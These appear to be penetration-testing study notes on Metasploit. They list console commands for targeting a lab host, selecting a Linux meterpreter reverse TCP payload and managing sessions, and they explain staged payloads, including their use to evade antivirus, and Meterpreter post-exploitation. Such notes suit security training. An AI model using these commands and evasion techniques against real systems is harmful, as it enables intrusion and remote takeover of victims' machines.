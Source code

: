 ```
info
```

```
show options
set RHOSTS 192.168.50.202
services -p 445 --rhosts
unset RHOSTS

show payloads
set payload 11
set payload payload/linux/x64/meterpreter_reverse_tcp

run
run -j
Ctrl + Z

jobs
```

Metasploit uses **sessions** to manage access to different machines.

```
sessions -l
sessions -i 2
sessions -k 2
```

## Metasploit Payload

A **non-staged** payload is sent in its entirety along with the exploit. => the payload contains the exploit and full shellcode for a selected task. In general, these "all-in-one" payloads are more stable. The downside is that the size of these payloads will be bigger than other types.

A **staged** payload is usually sent in 2 parts. The first part contains a small primary payload that causes the victim machine to connect back to the attacker, transfer a larger secondary payload containing the rest of the shellcode, and then execute it.

Situations in which we would prefer to use a staged payload:
- If there are space-limitations in an exploit, a staged payload might be a better choice as it is typically smaller.
- antivirus software can detect shellcode in an exploit. By replacing the full code with a first stage, which loads the second and malicious part of the shellcode, the remaining payload is retrieved and injected directly into the victim machine's memory. This may prevent detection and can increase our chances of success.

Metasploit contains the **Meterpreter** payload, which is a multi-function payload that can be dynamically extended at run-time. The payload resides entirely in memory on the target and its communication is encrypted by default. Meterpreter offers capabilities that are especially useful in the **post-exploitation** phase and exists for various operating systems such as Windows, Linux, macOS, Android, ...

Commands with "l" as prefix operate on the local system, i.e., our Kali VM.

If our target runs the Windows OS, we need to **escape the backslashes** in the destination path with backslashes like "\\".
